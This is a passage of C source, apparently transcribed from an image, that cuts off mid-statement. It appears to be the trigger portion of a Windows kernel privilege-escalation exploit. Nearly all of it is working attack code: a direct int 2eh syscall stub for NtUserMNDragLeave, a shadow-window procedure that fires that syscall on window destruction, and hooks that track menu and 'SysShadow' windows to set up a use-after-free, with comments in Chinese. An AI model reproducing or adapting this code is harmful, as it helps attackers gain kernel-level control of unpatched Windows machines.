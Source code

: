 ```c
	__asm { mov eax, num };
	__asm { int 2eh };
}

CONST UINT num_NtUserMNDragLeave = 0x11EC;

LRESULT WINAPI
xxShadowWindowProc(
	_In_ HWND   hwnd,
	_In_ UINT   msg,
	_In_ WPARAM wParam,
	_In_ LPARAM lParam
)
{
	if (msg == WM_NCDESTROY)
	{
		xxSyscall(num_NtUserMNDragLeave, 0, 0);
	}
	return DefWindowProcW(hwnd, msg, wParam, lParam);
}

VOID CALLBACK
xxWindowEventProc(
	HWINEVENTHOOK hWinEventHook,
	DWORD         event,
	HWND          hwnd,
	LONG          idObject,
	LONG          idChild,
	DWORD         idEventThread,
	DWORD         dwmsEventTime
)
{

	if (++iMenuCreated >= 2)
	{
		// 向子菜单发送 MN_ENDMENU 以关闭整个菜单
		SendMessageW(hwnd, MN_ENDMENU, 0, 0);
	}
	else
	{
		SendMessageW(hwnd, WM_LBUTTONDOWN, 1, 0x00020002); // (2,2)
	}
}

// 弹出窗口和阴影窗口创建时都会调用到这个函数
LRESULT CALLBACK
xxWindowHookProc(INT code, WPARAM wParam, LPARAM lParam)
{

	tagCWPSTRUCT *cwp = (tagCWPSTRUCT *)lParam;
	if (cwp->message != WM_NCCREATE)
	{
		return CallNextHookEx(0, code, wParam, lParam);
	}
	WCHAR szTemp[0x20] = { 0 };
	GetClassNameW(cwp->hwnd, szTemp, 0x14);

	if (!wcscmp(szTemp, L"#32768"))
	{
		hwndMenuHit = cwp->hwnd;
	}

	if (!wcscmp(szTemp, L"SysShadow") && hwndMenuHit != NULL)
```